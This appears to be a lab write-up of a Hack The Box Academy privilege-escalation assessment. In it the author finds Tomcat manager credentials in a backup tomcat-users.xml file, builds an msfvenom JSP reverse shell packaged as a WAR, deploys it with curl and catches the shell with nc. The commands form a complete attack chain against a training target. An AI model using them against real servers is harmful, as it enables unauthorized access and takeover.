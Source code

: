 Webpage
- 10.129.85.233:8080 requests a username and password. From the output of the /etc/passwd file they're are three other users: mrb3n, barry, tomcat.
- barry didn't work, nor did mrb3n
- No home folder for tomcat...because it's the default user for the web server application'

```python
http://10.129.85.233:8080 
```

Searching for tomcat files, I found two files: tomcat-users.xml and tomcat-users.xml.bak
```python
htb-student@nix03:/home$ find / -type f -name "*tomcat*" 2>/dev/null
/etc/logrotate.d/tomcat9
/etc/tomcat9/tomcat-users.xml
/etc/tomcat9/tomcat-users.xml.bak
```
Tomcat username
```python
tomcatadm
```
Tomcat password
```python
T0mc@t_s3cret_p@ss!
```

```python
barry@nix03:/etc/tomcat9$ cat *bak | grep username
  you must define such a user - the username and password are arbitrary. It is
 <user username="tomcatadm" password="T0mc@t_s3cret_p@ss!" roles="manager-gui, manager-script, manager-jmx, manager-status, admin-gui, admin-script"/>
```

Tomcat version is 9.0.31. I can also determine the version via the 
```python
curl -s http://10.129.85.233:8080/docs/ | grep Tomcat 
```

MSF Venom Reverse Shell
```python
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=4444 -f war -o revshell.war
```


Upload war file
```python
curl --upload-file revshell.war -u 'tomcatadm:T0mc@t_s3cret_p@ss!' "http://10.129.85.233:8080/manager/text/deploy?path=/monshell"
```

Got the Flag!
```python
(dan㉿ZeroSigma)-[~/…/HTB-Academy/9-Linux Privilege Escalation/Linux Internals-based Privilege Escalation/Skills Assessment]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.49] from (UNKNOWN) [10.129.85.233] 36528

id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)


ls  
conf
flag4.txt
lib
logs
policy
webapps
work
    
```